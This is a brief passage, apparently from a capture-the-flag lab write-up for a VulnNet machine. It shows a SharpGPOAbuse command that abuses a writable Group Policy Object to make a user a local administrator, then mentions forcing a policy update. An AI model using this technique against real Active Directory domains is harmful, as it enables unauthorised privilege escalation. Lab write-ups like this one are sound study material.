 ![](/img/02/04.png)
- Security-pol-vn 

- **Then you will get this tool called SharpGPOAbuse.exe**

```
C:\Enterprise-Share> .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```
![](/img/02/05.png)

- Nearly To The last step update Group Policy Object
